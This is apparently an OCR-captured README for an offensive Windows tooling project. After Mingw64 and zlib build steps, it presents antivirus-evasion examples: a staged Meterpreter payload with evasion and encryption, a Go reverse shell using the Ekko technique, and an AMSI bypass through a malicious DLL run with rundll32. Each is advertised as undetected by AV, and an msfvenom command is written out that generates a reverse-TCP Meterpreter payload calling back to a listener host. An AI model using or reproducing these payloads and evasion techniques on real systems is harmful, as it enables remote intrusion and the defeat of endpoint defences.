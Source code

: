 ### Windows

- Install Mingw64 and ZLIBx64
    - Extensive Guide: https://github.com/lowkey42/MagnumOpus/wiki/TDM-GCC-Mingw64-Installation

1. Download and install [TDM GCC Mingw64](https://jmeubank.github.io/tdm-gcc/)
    add \TDM\bin to PATH
2. Download and unzip [ZLIBx64](http://sourceforge.net/projects/mingw-w64/files/External%20binary%20packages%20(Win64%20hosted)/Binaries%20(64-bit))
3. copy _\zlib\bin to \TDM\bin
4. copy \zlib\include to \TDM\include
5. copy \zlib\lib to \TDM\lib

## Basic Examples 🚀

### Fiber

#### Portable Executable (PE)

- Meterpreter Staged Payload downladed from external web server with Evasion and Encryption Module implemented. **(UPDATE: Not detected by AV as of 23/05/2024)**
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.145 -o /tmp/payload.txt -b "\x00" EXITFUNC=thread LPORT=443 -f c
```
![](https://i.imgur.com/fwoBcKS.png)

#### Video Demo

[![Fiber](https://imgur.com/B5GhmV7.png)](https://i.imgur.com/edJttIV.mp4)

### Ekko

#### Portable Executable (PE)

- Simple Go Reverse Shell applying the Ekko Technique. **(UPDATE: Not detected by AV as of 23/05/2024)**

![](https://i.imgur.com/j5Npeis.png)

#### Video Demo

[![Ekko](https://imgur.com/wQQqXVi.png)](https://imgur.com/ZG5GeWb.mp4)

### AMSI ByPass
- AMSI ByPass with malicious dll using rundll32.exe **(UPDATE: Not detected by AV as of 23/05/2024)**
  
![](https://i.imgur.com/wuDFOb3.png)

### Simple Go Reverse Shell
